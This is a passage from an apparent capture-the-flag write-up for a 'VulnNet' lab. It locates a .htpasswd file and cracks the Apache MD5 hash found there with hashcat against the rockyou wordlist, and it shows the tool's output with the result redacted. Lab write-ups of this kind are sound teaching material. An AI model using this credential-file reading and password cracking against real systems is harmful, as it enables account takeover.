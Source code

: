 ![Locating .htpasswd](Images/vulnnet-htpasswd.png)

- May be they are credentials for **broadcast.vulnnet.thm**.

---

## Cracking the hash

- Use `hashcat` to crack the obtained hash:

```bash
$ hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2884/2948 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => s

$apr1$REDACTED:REDACTED
                                                 
```